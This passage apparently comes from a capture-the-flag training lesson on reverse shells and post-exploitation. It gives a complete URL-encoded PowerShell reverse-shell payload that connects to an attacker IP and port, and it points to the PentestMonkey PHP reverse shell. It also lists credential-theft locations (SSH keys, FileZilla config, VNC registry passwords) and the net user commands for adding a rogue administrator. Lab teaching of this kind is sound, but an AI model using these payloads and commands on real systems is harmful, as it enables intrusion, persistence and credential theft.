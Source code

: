 As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

# Next steps

Ok, we have a shell. Now what?  

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

---